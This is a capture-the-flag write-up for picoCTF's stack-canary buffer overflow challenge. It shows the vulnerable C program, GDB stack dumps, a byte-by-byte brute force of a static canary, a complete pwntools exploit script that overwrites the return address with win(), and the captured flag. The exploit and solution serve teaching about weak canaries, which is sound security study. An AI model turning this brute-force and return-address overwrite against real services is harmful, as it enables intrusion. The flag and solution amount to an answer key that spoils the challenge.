 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/q8bFFdo.png
points: 300
solves: 1254
tags: picoCTF pwn pwn/buffer-overflow pwn/stack-canary pwn/ret2win pwn/byte-by-byte
date: 1337-01-01
comments: false
---
```


Do you think you can bypass the protection and get the flag?  
It looks like Dr. Oswal added a stack canary to this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo3-vuln) to protect against buffer overflows. You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo3-vuln.c) here. And connect with it using:  
`nc saturn.picoctf.net [port #]`  

---

We're given an ELF binary and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    fflush(stdout);
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

Firstly, it's immediately clear this is a classic return-to-win challenge that requires us to override the return register with the address of the win function, as evidenced by the `win()` function that is never called in the normal program execution.  

Secondly, it seems that it's added a stack canary to the stack. For those who don't know, a stack canary is a random value set on a stack whose value is checked to ensure that a buffer overflow did not occur. Without knowledge of the canary, an attacker's buffer overflow would change the stack canary and trigger a `Stack Smashing Detected` warning.  

However, while stack canaries are pretty intimidating, this one isn't as intimidating. Why? Because stack canaries are typically randomly generated every time a program is executed. This one, however, is not randomly generated. Instead, it is read from `canary.txt` every single time, meaning that it stays the same between program executions.  

Initially, I thought I could brute force the stack canary. However, a quick calculation shows that it isn't possible.  
A stack canary of 4 bytes will have `256^4` possible values, i.e. `2^32`, which is equivalent to over a billion possible values -- not very brute forceable.  

Fortunately, there's a clever trick we can use to reduce the number of iterations we have to make from `2^32` to just `4 * 2^8`.  
To demonstrate this, I'll show with an example instead.  

Through dynamic analysis, we can first locate the offset of both the input and the canary on the stack.  

First, I created a `flag.txt` file filled with a fake flag and a `canary.txt` file filled with `1111` for local testing purposes.  
Then, I entered into GDB for `vuln` and set a breakpoint at `*vuln+0x192`, i.e. right after our input.  
For my input, I entered `4` for the number of bytes to input and `aaaa` for my input, just so I could find where my string was in the stack.  
With `x/100x $esp`, I quickly found both the location of both the input and the canary:  

<pre>
0xffce6cf0:     0x0804c000      0x0804c000      <b>0x61616161</b>      0x00000000
0xffce6d00:     0xffce6d48      0xf7f9eff4      0x00000001      0x0804c000
0xffce6d10:     0xffce6e34      0xf7fc2b80      0xffce6d48      0x08049480
0xffce6d20:     0x093151a0      0x00000001      0x00000004      0x093151a0
0xffce6d30:     0x00002710      0x0804c000      <b>0x31313131</b>      0x00000001
</pre>

We can clearly observe that there is an offset of 0x40 bytes between them. Therefore, to overwrite the canary, we simply need add an offset of 0x40 bytes before our canary-guess input.  

But, as we discussed before, it would be extremely inefficient to brute force the canary as is.  
Fortunately, we don't actually need to brute force all 4 bytes of the canary at the same time.  

Let's say I change my input to 0x41 `a`'s. Then, the stack will look like this:  

<pre>
0xfff4feb0:     0x0804c000      0x0804c000      0x61616161      0x61616161
0xfff4fec0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fed0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fee0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fef0:     0x61616161      0x61616161      0x313131<b>61</b>      0x00000002
</pre>

Take a look at the bytes storing the canary -- only the last byte (technically the first byte since little endianness) was changed!  

So, what if we test each byte of the canary at a time, starting with the first byte. Changing only the first byte, we can just continuously test if the program outputs `Stack Smashing Detected` or not. Once it doesn't we know that we have found the correct byte. The reason for this is, since we're only changing the first byte, everything else remains the same, and therefore the stack canary will still be correct as long as the first byte is correct!  

Once we find the first byte, we can move onto the second byte, simply remembering to append the found first byte to the end of the payload to keep that byte of the stack canary right. We can do this repeatedly to find all 4 bytes of the stack canary.  

This program vulnerability demonstrates the weakness of static stack canaries. In fact, our simple solution here is enough to brute force a static/unchanging stack canary of any reasonable length of bytes!  

That's why current stack canaries are randomized for each program execution to ensure that attackers cannot just brute force it like this.  

For this problem though, now that we know how to brute force the stack canary, all that's left to do is locate the `eip` (return address pointer) on the stack and overwrite it with the `win()` function's address so that, when the `vuln()` function returns, it will return to the `win()` function instead and give us the flag!  

A simple GDB command of `i f` gives us where the value of `eip` is stored. A simple subtraction of the canary address from this address provides us the necessary offset to provide after the canary to overwrite the `eip`. All that's left now is to write an exploit program with *pwntools* to brute force the canary and return-to-win to get the flag!  

```py
from pwn import *

port = 58360

canary = b''
for i in range(4):
        payload = b'a' * 64 + canary
        for j in range(256):
                send = payload + j.to_bytes(1, 'big')
                conn = remote('saturn.picoctf.net', port)
                conn.recv()
                conn.sendline(str(65 + i).encode()) # num bytes to send
                conn.recv()
                conn.sendline(send) # payload
                result = conn.recv()
                conn.close()
                if b'Smashing' not in result:
                        canary += j.to_bytes(1, 'big')
                        print(canary)
                        break

conn = remote('saturn.picoctf.net', port)
winpayload = b'a' * 64 + canary + b'a' * 0x10 + p32(0x08049336)
print(conn.recv())
conn.sendline(str(len(winpayload)).encode())
print(str(len(winpayload)).encode())
print(winpayload)
print(conn.recv())
conn.sendline(winpayload)
print(conn.recv())
print(conn.recv())
```

The canary turns out to be `BiRd` and the flag turns out to be:  

    picoCTF{Stat1C_c4n4r13s_4R3_b4D_14b7d39c}
